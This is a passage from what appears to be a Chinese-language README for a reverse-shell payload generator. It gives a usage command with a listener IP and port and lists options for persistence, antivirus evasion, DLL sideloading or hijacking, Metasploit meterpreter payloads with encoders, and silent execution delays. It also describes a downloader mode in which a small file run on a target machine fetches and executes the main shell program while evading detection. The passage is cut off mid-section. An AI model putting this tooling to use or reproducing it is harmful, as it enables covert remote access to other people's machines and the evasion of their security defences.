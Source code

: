 ```bash
python3 main.py -i 192.168.1.100 -p 4444 --use-msf --use-white-black --white-black-mode wrapper
```

### 命令行参数
```bash
-i, --ip              监听IP地址 (必需)
-p, --port            监听端口 (必需)
-r, --retry           连接重试次数 (默认: 10)
-d, --delay           重试间隔秒数 (默认: 5)
-k, --key-length      密钥长度 (默认: 16)
-o, --output          输出目录 (默认: 当前目录)
-f, --filename        自定义文件名
--persistence         添加持久化功能
--anti-detection      添加反杀毒特征
--use-dropper         使用分阶段执行模式
--use-white-black     使用白加黑技术
--white-black-mode    白加黑模式 (wrapper/sideloading/hijacking)
--use-downloader      生成下载器模式
--download-url        下载地址 (主程序URL)
--downloader-silent   下载器静默模式
--use-msf             使用MSF(Metasploit)载荷
--msf-payload         MSF载荷类型 (默认: python/meterpreter/reverse_tcp)
--msf-encoder         MSF编码器 (如: x86/shikata_ga_nai)  
--msf-iterations      MSF编码迭代次数
--msf-format          MSF输出格式 (python/raw/exe/dll/powershell)
--quiet               静默模式
--silent-delay        执行前延迟时间 (默认: 30秒)
```

## 功能模式说明

### 🌐 下载器模式
下载器模式会生成两个Python文件：
1. **主程序文件** - 包含完整的Shell连接功能
2. **下载器文件** - 负责从指定URL下载并执行主程序

**使用流程：**
1. 生成主程序和下载器文件
2. 将主程序文件上传到Web服务器
3. 在目标机器上运行下载器文件
4. 下载器自动下载并执行主程序

**优势：**
- 分离部署，降低检测风险
- 下载器体积小，传输方便
- 支持静默下载和执行
- 自动清理临时文件

### 🔫 MSF集成模式
MSF集成模式利用Metasploit框架生成高级载荷：
